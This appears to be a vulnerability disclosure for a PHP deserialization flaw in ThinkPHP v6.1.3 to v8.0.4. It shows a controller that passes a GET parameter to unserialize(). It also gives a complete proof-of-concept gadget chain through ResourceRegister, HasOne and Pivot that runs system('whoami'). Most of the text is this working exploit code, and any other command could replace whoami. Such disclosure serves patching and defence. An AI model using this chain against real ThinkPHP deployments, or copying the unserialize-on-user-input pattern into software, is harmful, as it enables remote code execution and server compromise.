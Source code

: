 ## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

By triggering the __call method of the HasOne class



## Affects Version



Thinkphp v6.1.3 to v8.0.4

## Vulnerability certificate

php8.0.2 thinkphp v8.0.0



First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['lll']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

}
```



POC

```
<?php

namespace think\model\relation;
class HasMany{

}

namespace think;

abstract class Model
{

    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $connection;
    function __construct()
    {
        $this->data["lll"]=["whoami"];
        $this->withAttr["lll"]=["system"];
        $this->json=["lll"];
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->jsonAssoc = true;

    }
}
namespace think\model\relation;
use think\model\Pivot;




class HasOne{
    protected $localKey;
    protected $query;
    protected $baseQuery;
    protected $parent;
    protected $foreignKey;

    function __construct(){
        $this->query=true;
        $this->baseQuery=null;
        $this->parent=new HasMany();
        $this->localKey=new Pivot();
    }

}

namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\relation\HasOne;

class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    protected $db;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new HasOne();
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```

![image-20240912120035257](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240912120035257.png)

